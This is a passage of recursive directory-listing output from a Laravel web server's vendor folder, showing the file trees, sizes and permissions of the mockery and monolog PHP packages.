drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Phpunit

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Adapter/Phpunit:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  776 Feb 28  2017 MockeryPHPUnitIntegration.php
-rw-r--r-- 1 www-data www-data  671 Feb 28  2017 MockeryTestCase.php
-rw-r--r-- 1 www-data www-data 3.0K Feb 28  2017 TestListener.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/CountValidator:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Feb 28  2017 AtLeast.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 AtMost.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 CountValidatorAbstract.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 Exact.php
-rw-r--r-- 1 www-data www-data  773 Feb 28  2017 Exception.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Exception:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Feb 28  2017 InvalidCountException.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 28  2017 InvalidOrderException.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 28  2017 NoMatchingExpectationException.php
-rw-r--r-- 1 www-data www-data  759 Feb 28  2017 RuntimeException.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Generator:
total 68K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  578 Feb 28  2017 CachingGenerator.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 28  2017 DefinedTargetClass.php
-rw-r--r-- 1 www-data www-data  153 Feb 28  2017 Generator.php
-rw-r--r-- 1 www-data www-data 1.1K Feb 28  2017 Method.php
-rw-r--r-- 1 www-data www-data  14K Feb 28  2017 MockConfiguration.php
-rw-r--r-- 1 www-data www-data 3.3K Feb 28  2017 MockConfigurationBuilder.php
-rw-r--r-- 1 www-data www-data  617 Feb 28  2017 MockDefinition.php
-rw-r--r-- 1 www-data www-data 2.6K Feb 28  2017 Parameter.php
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 StringManipulation
-rw-r--r-- 1 www-data www-data  778 Feb 28  2017 StringManipulationGenerator.php
-rw-r--r-- 1 www-data www-data  634 Feb 28  2017 TargetClass.php
-rw-r--r-- 1 www-data www-data 1014 Feb 28  2017 UndefinedTargetClass.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Generator/StringManipulation:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Pass

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Generator/StringManipulation/Pass:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  786 Feb 28  2017 CallTypeHintPass.php
-rw-r--r-- 1 www-data www-data  658 Feb 28  2017 ClassNamePass.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 ClassPass.php
-rw-r--r-- 1 www-data www-data 1.9K Feb 28  2017 InstanceMockPass.php
-rw-r--r-- 1 www-data www-data  556 Feb 28  2017 InterfacePass.php
-rw-r--r-- 1 www-data www-data 4.5K Feb 28  2017 MethodDefinitionPass.php
-rw-r--r-- 1 www-data www-data  183 Feb 28  2017 Pass.php
-rw-r--r-- 1 www-data www-data  958 Feb 28  2017 RemoveBuiltinMethodsThatAreFinalPass.php
-rw-r--r-- 1 www-data www-data 1.1K Feb 28  2017 RemoveUnserializeForInternalSerializableClassesPass.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Loader:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  344 Feb 28  2017 EvalLoader.php
-rw-r--r-- 1 www-data www-data  148 Feb 28  2017 Loader.php
-rw-r--r-- 1 www-data www-data  548 Feb 28  2017 RequireLoader.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Matcher:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Feb 28  2017 Any.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 AnyOf.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 28  2017 Closure.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 Contains.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 Ducktype.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 28  2017 HasKey.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 28  2017 HasValue.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 28  2017 MatcherAbstract.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 28  2017 MustBe.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 28  2017 Not.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 NotAnyOf.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 28  2017 Subset.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 28  2017 Type.php

/var/www/laravel/vendor/mockery/mockery/tests:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.8K Feb 28  2017 Bootstrap.php
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 Mockery

/var/www/laravel/vendor/mockery/mockery/tests/Mockery:
total 244K
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 2.6K Feb 28  2017 AdhocTest.php
-rw-r--r-- 1 www-data www-data  51K Feb 28  2017 ContainerTest.php
-rw-r--r-- 1 www-data www-data 4.8K Feb 28  2017 DemeterChainTest.php
-rw-r--r-- 1 www-data www-data  68K Feb 28  2017 ExpectationTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Fixtures
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 Generator
-rw-r--r-- 1 www-data www-data 2.0K Feb 28  2017 HamcrestExpectationTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Loader
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 LoaderTest.php
-rw-r--r-- 1 www-data www-data 2.6K Feb 28  2017 MockClassWithFinalWakeupTest.php
-rw-r--r-- 1 www-data www-data 1.1K Feb 28  2017 MockClassWithUnknownTypeHintTest.php
-rw-r--r-- 1 www-data www-data 6.0K Feb 28  2017 MockTest.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 28  2017 MockeryCanMockMultipleInterfacesWhichOverlapTest.php
-rw-r--r-- 1 www-data www-data 4.9K Feb 28  2017 MockingMethodsWithNullableParametersTest.php
-rw-r--r-- 1 www-data www-data 5.0K Feb 28  2017 MockingNullableMethodsTest.php
-rw-r--r-- 1 www-data www-data 4.1K Feb 28  2017 MockingParameterAndReturnTypesTest.php
-rw-r--r-- 1 www-data www-data 3.6K Feb 28  2017 MockingProtectedMethodsTest.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 MockingVariadicArgumentsTest.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 28  2017 MockingVoidMethodsTest.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 NamedMockTest.php
-rw-r--r-- 1 www-data www-data 5.6K Feb 28  2017 RecorderTest.php
-rw-r--r-- 1 www-data www-data 2.1K Feb 28  2017 SpyTest.php
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 Test
-rw-r--r-- 1 www-data www-data 3.0K Feb 28  2017 WithFormatterExpectationTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 _files

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Fixtures:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Feb 28  2017 MethodWithNullableParameters.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 28  2017 MethodWithNullableReturnType.php
-rw-r--r-- 1 www-data www-data  795 Feb 28  2017 VoidMethod.php

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Generator:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  779 Feb 28  2017 DefinedTargetClassTest.php
-rw-r--r-- 1 www-data www-data 5.2K Feb 28  2017 MockConfigurationTest.php
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 StringManipulation

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Generator/StringManipulation:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Pass

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Generator/StringManipulation/Pass:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Feb 28  2017 CallTypeHintPassTest.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 ClassNamePassTest.php
-rw-r--r-- 1 www-data www-data  763 Feb 28  2017 InstanceMockPassTest.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 28  2017 InterfacePassTest.php

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Loader:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  254 Feb 28  2017 EvalLoaderTest.php
-rw-r--r-- 1 www-data www-data  636 Feb 28  2017 LoaderTestCase.php
-rw-r--r-- 1 www-data www-data  281 Feb 28  2017 RequireLoaderTest.php

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Test:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Generator

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/Test/Generator:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Feb 28  2017 MockConfigurationBuilderTest.php

/var/www/laravel/vendor/mockery/mockery/tests/Mockery/_files:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data    0 Feb 28  2017 file.txt

/var/www/laravel/vendor/mockery/mockery/travis:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data  214 Feb 28  2017 after_success.sh
-rwxr-xr-x 1 www-data www-data  303 Feb 28  2017 before_script.sh
-rw-r--r-- 1 www-data www-data   45 Feb 28  2017 extra.ini
-rwxr-xr-x 1 www-data www-data  137 Feb 28  2017 install.sh
-rwxr-xr-x 1 www-data www-data  246 Feb 28  2017 script.sh

/var/www/laravel/vendor/monolog:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 monolog

/var/www/laravel/vendor/monolog/monolog:
total 60K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Mar 13  2017 .php_cs
-rw-r--r-- 1 www-data www-data  19K Mar 13  2017 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 1.1K Mar 13  2017 LICENSE
-rw-r--r-- 1 www-data www-data 4.0K Mar 13  2017 README.md
-rw-r--r-- 1 www-data www-data 2.5K Mar 13  2017 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 doc
-rw-r--r-- 1 www-data www-data  460 Mar 13  2017 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Mar 13  2017 src
drwxr-xr-x 3 www-data www-data 4.0K Mar 13  2017 tests

/var/www/laravel/vendor/monolog/monolog/doc:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 8.3K Mar 13  2017 01-usage.md
-rw-r--r-- 1 www-data www-data 9.8K Mar 13  2017 02-handlers-formatters-processors.md
-rw-r--r-- 1 www-data www-data  798 Mar 13  2017 03-utilities.md
-rw-r--r-- 1 www-data www-data 2.2K Mar 13  2017 04-extending.md
-rw-r--r-- 1 www-data www-data 1023 Mar 13  2017 sockets.md

/var/www/laravel/vendor/monolog/monolog/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 Monolog

/var/www/laravel/vendor/monolog/monolog/src/Monolog:
total 52K
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 7.9K Mar 13  2017 ErrorHandler.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Formatter
drwxr-xr-x 6 www-data www-data 4.0K Mar 13  2017 Handler
-rw-r--r-- 1 www-data www-data  19K Mar 13  2017 Logger.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Processor
-rw-r--r-- 1 www-data www-data 4.0K Mar 13  2017 Registry.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Formatter:
total 96K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar 13  2017 ChromePHPFormatter.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 13  2017 ElasticaFormatter.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 13  2017 FlowdockFormatter.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 13  2017 FluentdFormatter.php
-rw-r--r-- 1 www-data www-data  787 Mar 13  2017 FormatterInterface.php
-rw-r--r-- 1 www-data www-data 4.4K Mar 13  2017 GelfMessageFormatter.php
-rw-r--r-- 1 www-data www-data 4.5K Mar 13  2017 HtmlFormatter.php
-rw-r--r-- 1 www-data www-data 5.4K Mar 13  2017 JsonFormatter.php
-rw-r--r-- 1 www-data www-data 5.4K Mar 13  2017 LineFormatter.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 13  2017 LogglyFormatter.php
-rw-r--r-- 1 www-data www-data 5.2K Mar 13  2017 LogstashFormatter.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 MongoDBFormatter.php
-rw-r--r-- 1 www-data www-data 9.2K Mar 13  2017 NormalizerFormatter.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 13  2017 ScalarFormatter.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 WildfireFormatter.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Handler:
total 324K
drwxr-xr-x 6 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 4.1K Mar 13  2017 AbstractHandler.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 13  2017 AbstractProcessingHandler.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 13  2017 AbstractSyslogHandler.php
-rw-r--r-- 1 www-data www-data 3.8K Mar 13  2017 AmqpHandler.php
-rw-r--r-- 1 www-data www-data 7.0K Mar 13  2017 BrowserConsoleHandler.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 13  2017 BufferHandler.php
-rw-r--r-- 1 www-data www-data 5.5K Mar 13  2017 ChromePHPHandler.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 13  2017 CouchDBHandler.php
-rw-r--r-- 1 www-data www-data 4.6K Mar 13  2017 CubeHandler.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Curl
-rw-r--r-- 1 www-data www-data 5.4K Mar 13  2017 DeduplicationHandler.php
-rw-r--r-- 1 www-data www-data 1000 Mar 13  2017 DoctrineCouchDBHandler.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 13  2017 DynamoDbHandler.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 13  2017 ElasticSearchHandler.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 13  2017 ErrorLogHandler.php
-rw-r--r-- 1 www-data www-data 4.4K Mar 13  2017 FilterHandler.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 FingersCrossed
-rw-r--r-- 1 www-data www-data 5.6K Mar 13  2017 FingersCrossedHandler.php
-rw-r--r-- 1 www-data www-data 5.4K Mar 13  2017 FirePHPHandler.php
-rw-r--r-- 1 www-data www-data 3.3K Mar 13  2017 FleepHookHandler.php
-rw-r--r-- 1 www-data www-data 3.3K Mar 13  2017 FlowdockHandler.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 13  2017 GelfHandler.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 13  2017 GroupHandler.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 13  2017 HandlerInterface.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 13  2017 HandlerWrapper.php
-rw-r--r-- 1 www-data www-data  11K Mar 13  2017 HipChatHandler.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 13  2017 IFTTTHandler.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 13  2017 LogEntriesHandler.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 13  2017 LogglyHandler.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 13  2017 MailHandler.php
-rw-r--r-- 1 www-data www-data 2.2K Mar 13  2017 MandrillHandler.php
-rw-r--r-- 1 www-data www-data  450 Mar 13  2017 MissingExtensionException.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 13  2017 MongoDBHandler.php
-rw-r--r-- 1 www-data www-data 5.1K Mar 13  2017 NativeMailerHandler.php
-rw-r--r-- 1 www-data www-data 5.9K Mar 13  2017 NewRelicHandler.php
-rw-r--r-- 1 www-data www-data  953 Mar 13  2017 NullHandler.php
-rw-r--r-- 1 www-data www-data 9.8K Mar 13  2017 PHPConsoleHandler.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 13  2017 PsrHandler.php
-rw-r--r-- 1 www-data www-data 6.5K Mar 13  2017 PushoverHandler.php
-rw-r--r-- 1 www-data www-data 7.0K Mar 13  2017 RavenHandler.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 13  2017 RedisHandler.php
-rw-r--r-- 1 www-data www-data 3.7K Mar 13  2017 RollbarHandler.php
-rw-r--r-- 1 www-data www-data 5.6K Mar 13  2017 RotatingFileHandler.php
-rw-r--r-- 1 www-data www-data 2.7K Mar 13  2017 SamplingHandler.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Slack
-rw-r--r-- 1 www-data www-data 6.0K Mar 13  2017 SlackHandler.php
-rw-r--r-- 1 www-data www-data 3.6K Mar 13  2017 SlackWebhookHandler.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 13  2017 SlackbotHandler.php
-rw-r--r-- 1 www-data www-data 8.7K Mar 13  2017 SocketHandler.php
-rw-r--r-- 1 www-data www-data 5.1K Mar 13  2017 StreamHandler.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 13  2017 SwiftMailerHandler.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 13  2017 SyslogHandler.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 SyslogUdp
-rw-r--r-- 1 www-data www-data 2.1K Mar 13  2017 SyslogUdpHandler.php
-rw-r--r-- 1 www-data www-data 4.6K Mar 13  2017 TestHandler.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 13  2017 WhatFailureGroupHandler.php
-rw-r--r-- 1 www-data www-data 2.2K Mar 13  2017 ZendMonitorHandler.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Handler/Curl:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Mar 13  2017 Util.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Handler/FingersCrossed:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data  651 Mar 13  2017 ActivationStrategyInterface.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 13  2017 ChannelLevelActivationStrategy.php
-rw-r--r-- 1 www-data www-data  759 Mar 13  2017 ErrorLevelActivationStrategy.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Handler/Slack:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 8.0K Mar 13  2017 SlackRecord.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Handler/SyslogUdp:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Mar 13  2017 UdpSocket.php

/var/www/laravel/vendor/monolog/monolog/src/Monolog/Processor:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Mar 13  2017 GitProcessor.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 IntrospectionProcessor.php
-rw-r--r-- 1 www-data www-data  790 Mar 13  2017 MemoryPeakUsageProcessor.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 13  2017 MemoryProcessor.php
-rw-r--r-- 1 www-data www-data  771 Mar 13  2017 MemoryUsageProcessor.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 13  2017 MercurialProcessor.php
-rw-r--r-- 1 www-data www-data  574 Mar 13  2017 ProcessIdProcessor.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 13  2017 PsrLogMessageProcessor.php
-rw-r--r-- 1 www-data www-data  820 Mar 13  2017 TagProcessor.php
-rw-r--r-- 1 www-data www-data  944 Mar 13  2017 UidProcessor.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 WebProcessor.php

/var/www/laravel/vendor/monolog/monolog/tests:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 Monolog

/var/www/laravel/vendor/monolog/monolog/tests/Monolog:
total 56K
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data  934 Mar 13  2017 ErrorHandlerTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Formatter
drwxr-xr-x 4 www-data www-data 4.0K Mar 13  2017 Handler
-rw-r--r-- 1 www-data www-data  17K Mar 13  2017 LoggerTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Processor
-rw-r--r-- 1 www-data www-data 1.2K Mar 13  2017 PsrLogCompatTest.php
-rw-r--r-- 1 www-data www-data 3.9K Mar 13  2017 RegistryTest.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 13  2017 TestCase.php

/var/www/laravel/vendor/monolog/monolog/tests/Monolog/Formatter:
total 108K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 4.2K Mar 13  2017 ChromePHPFormatterTest.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 13  2017 ElasticaFormatterTest.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 13  2017 FlowdockFormatterTest.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 13  2017 FluentdFormatterTest.php
-rw-r--r-- 1 www-data www-data 7.4K Mar 13  2017 GelfMessageFormatterTest.php
-rw-r--r-- 1 www-data www-data 6.0K Mar 13  2017 JsonFormatterTest.php
-rw-r--r-- 1 www-data www-data 7.5K Mar 13  2017 LineFormatterTest.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 13  2017 LogglyFormatterTest.php
-rw-r--r-- 1 www-data www-data  12K Mar 13  2017 LogstashFormatterTest.php
-rw-r--r-- 1 www-data www-data 9.1K Mar 13  2017 MongoDBFormatterTest.php
-rw-r--r-- 1 www-data www-data  14K Mar 13  2017 NormalizerFormatterTest.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 ScalarFormatterTest.php
-rw-r--r-- 1 www-data www-data 4.2K Mar 13  2017 WildfireFormatterTest.php

/var/www/laravel/vendor/monolog/monolog/tests/Monolog/Handler:
total 300K
drwxr-xr-x 4 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data 4.0K Mar 13  2017 AbstractHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 13  2017 AbstractProcessingHandlerTest.php
-rw-r--r-- 1 www-data www-data 4.1K Mar 13  2017 AmqpHandlerTest.php
-rw-r--r-- 1 www-data www-data 4.2K Mar 13  2017 BrowserConsoleHandlerTest.php
-rw-r--r-- 1 www-data www-data 5.3K Mar 13  2017 BufferHandlerTest.php
-rw-r--r-- 1 www-data www-data 4.2K Mar 13  2017 ChromePHPHandlerTest.php
-rw-r--r-- 1 www-data www-data  751 Mar 13  2017 CouchDBHandlerTest.php
-rw-r--r-- 1 www-data www-data 6.0K Mar 13  2017 DeduplicationHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 13  2017 DoctrineCouchDBHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.2K Mar 13  2017 DynamoDbHandlerTest.php
-rw-r--r-- 1 www-data www-data 7.6K Mar 13  2017 ElasticSearchHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 13  2017 ErrorLogHandlerTest.php
-rw-r--r-- 1 www-data www-data 6.3K Mar 13  2017 FilterHandlerTest.php
-rw-r--r-- 1 www-data www-data  11K Mar 13  2017 FingersCrossedHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 13  2017 FirePHPHandlerTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Fixtures
-rw-r--r-- 1 www-data www-data 2.2K Mar 13  2017 FleepHookHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 13  2017 FlowdockHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 GelfHandlerLegacyTest.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 13  2017 GelfHandlerTest.php
-rw-r--r-- 1 www-data www-data  500 Mar 13  2017 GelfMockMessagePublisher.php
-rw-r--r-- 1 www-data www-data 3.8K Mar 13  2017 GroupHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.3K Mar 13  2017 HandlerWrapperTest.php
-rw-r--r-- 1 www-data www-data  11K Mar 13  2017 HipChatHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 13  2017 LogEntriesHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.2K Mar 13  2017 MailHandlerTest.php
-rw-r--r-- 1 www-data www-data  573 Mar 13  2017 MockRavenClient.php
-rw-r--r-- 1 www-data www-data 1.8K Mar 13  2017 MongoDBHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.7K Mar 13  2017 NativeMailerHandlerTest.php
-rw-r--r-- 1 www-data www-data 6.0K Mar 13  2017 NewRelicHandlerTest.php
-rw-r--r-- 1 www-data www-data  747 Mar 13  2017 NullHandlerTest.php
-rw-r--r-- 1 www-data www-data 9.7K Mar 13  2017 PHPConsoleHandlerTest.php
